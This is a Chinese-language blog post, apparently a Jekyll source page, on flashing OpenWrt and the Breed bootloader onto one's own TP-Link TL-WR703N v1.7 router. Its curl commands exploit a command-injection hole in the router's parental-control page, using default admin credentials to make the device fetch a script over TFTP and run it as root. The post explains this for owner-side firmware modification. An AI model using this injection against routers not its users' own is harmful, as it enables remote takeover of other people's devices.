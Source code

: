```yaml
---
layout: post
title: 给 v1.7 版本的 TL-WR703N 刷 openwrt
key: 2018-03-17-wr703n-openwrt

---       
```

从硬件版本 v1.7 起, WR703N 不再支持直接通过 TP-Link 官方 Web 控制台直接刷入 OpenWrt. TP-Link 更改了 U-boot 的代码, 并且禁止了通过官方控制台刷入 OpenWrt 等非官方固件的方式. 因此唯一的刷入方式只剩下拆机后通过串口刷入. 但我们还有一种方式, 那就是通过利用 Web 服务的一些漏洞, 将我们的代码注入到路由器操作系统内并且以 root 权限执行, 从而达到刷机的目的. 刷入 OpenWrt 之后, 我们就可以自己刷入不死 U-Boot, 之后就可以随意折腾了.     
<!--more-->
## 基本流程      
准备工作 -> 编写脚本 -> 利用漏洞上传并执行 -> 脚本通过 TFTP 下载 busybox 和镜像, 执行 busybox 刷写 kernel 和 rootfs 分区 -> 利用刷入的 OpenWrt 安装 Breed -> 完成     
 
## 需要准备的文件
- 一个 TP-Link TL-WR703N 路由器，确保固件版本为 3.17.1 Build 140120 Rel.56593n
- TL-WR703N 的 openwrt 固件 [openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin](https://archive.openwrt.org/snapshots/trunk/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin)
- cURL
- TFTP 服务器 (Windows 可以使用 [tftpd32](http://tftpd32.jounin.net/tftpd32_download.html))
- busybox 1.16.1 MIPS 版 [busybox-mips](https://busybox.net/downloads/binaries/1.16.1/busybox-mips)
- Breed Bootloader [Breed 主页](http://www.right.com.cn/forum/thread-161906-1-1.html)  [breed-ar9331-r1163.bin](https://breed.hackpascal.net/EOL/breed-ar9331-r1163.bin)
- 解锁了 u-boot 分区的 OpenWrt 固件 [owrt-703n-uboot.bin](/content/files/2018/owrt-703n/owrt-703n-uboot.bin) 来自 [TP-LINK 全系列解锁 U-Boot 分区固件](http://www.right.com.cn/forum/thread-142763-1-1.html)

## 步骤
### 准备工作
1. 连接路由器的网线接口到电脑, 确认版本与本文是否一致, 并在系统设置中将路由器恢复出厂设置.     
2. 将 ```busybox-mips``` 重命名为 ```busybox```
3. 将电脑 IP 地址设置为静态 (本文中为 192.168.1.9)     

### 分割分区
首先, 利用 ```dd``` 将固件 bin 文件分为 kernel 和 rootfs 两个分区
```
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i1 bs=1 count=1048576

dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i2 bs=1 skip=1048576
```
得到 i1 和 i2 两个文件 (可以在这里下载 [zip](/content/files/2018/owrt-703n/i1i2.zip))
### 编写 shell 脚本
创建一个名为 ```aa``` 的文件 (文件名可随意), 写入如下内容:
```
cd /tmp
tftp -gl i1 192.168.1.9
tftp -gl i2 192.168.1.9
tftp -gl busybox 192.168.1.9
chmod 755 busybox
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync
./busybox reboot -f
```
其中 192.168.1.9 为本机的 IP 地址.    
**注意:** 如果在 Windows 下, 请将编辑器的换行符设置为 Unix 格式 (LF), 或直接下载 [aa](/content/files/2018/owrt-703n/aa)

### 设置 TFTP 服务器
现在应该有四个文件: ```i1```, ```i2```, ```aa```, ```busybox```. 将这四个文件放在同一个目录下, 并且启动 TFTP 服务器, 将服务根目录指向这四个文件所在的目录. 具体方法可自行搜索, 这里不再赘述.

### 利用漏洞上传 shell 并执行
```
curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true" "http://192.168.1.1/"

curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1"

curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.9;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6"

```
执行第一二句的时候可能会报错误, 忽略即可. 第三条命令中, 如果 aa 的文件名和本机的 IP 地址与本文不同, 请自行替换掉对应的文件名 / IP.      
执行完第三条命令后, 如果成功, TFTP 服务器会显示路由器正在从服务器中下载文件, 传输完成后路由器的 LED 灯将开始闪烁. **此时千万不要断开路由器的电源, 否则就只能拆机 TTL 刷机了**      
当 LED 灯停止闪烁后, 打开 http://192.168.1.1 , 应该会看到熟悉的 OpenWrt 登陆界面
**在此时由于 U-boot 还未被替换, 恢复出厂设置会导致变砖, 切记不要恢复出厂设置**    
### 刷入 Breed 
由于原版的 OpenWrt 禁止了对 u-boot 分区的写入, 因此我们首先需要刷入解锁固件 ```owrt-703n-uboot.bin```    
通过 LucI 界面登录路由器, 在系统升级中更新固件为解锁版 OpenWrt, 注意不要勾选保存原有设置的选项.    
等待刷入完成后, 登陆管理界面并设置密码以开启 SSH.    
开启 SSH 后, 使用 WinSCP (或其他软件) 连接到路由器, 将 ```breed-ar9331-r1163.bin``` 上传到 ```/tmp``` 目录下     
然后开始刷入 breed:
```
cd /tmp

mtd -r write breed-ar9331-r1163.bin 
```
刷入完成后会自动重启, 重启完毕后将路由器断电, 按住 Reset 按钮接通电源, 等待 LED 灯开始闪烁, 松开 Reset 进入 http://192.168.1.1 , 应该就可以看到 Breed 的界面了.     
进入 Breed 后, 记得将 MAC 地址改回路由器背面所写的 MAC 地址.     
最后, 为了安全起见, 建议用 breed 重新刷回原版 OpenWrt 固件, 以防不小心写坏 U-boot 分区.    

## 参考文章
[Flashing TP-Link TL-WR703N v1.7 to OpenWrt](https://www.shadowandy.net/2015/03/flashing-tp-link-tl-wr703n-v1-7-to-openwrt.htm)      
[找到国外牛人给出的不通过TTL刷openwrt到1.7版本的703n的方法](http://www.right.com.cn/forum/forum.php?mod=viewthread&tid=159078)      
[tplink tl-wr703n v1.7最新固件 免ttl刷openwrt刷breed](http://www.right.com.cn/forum/forum.php?mod=viewthread&tid=184971)      
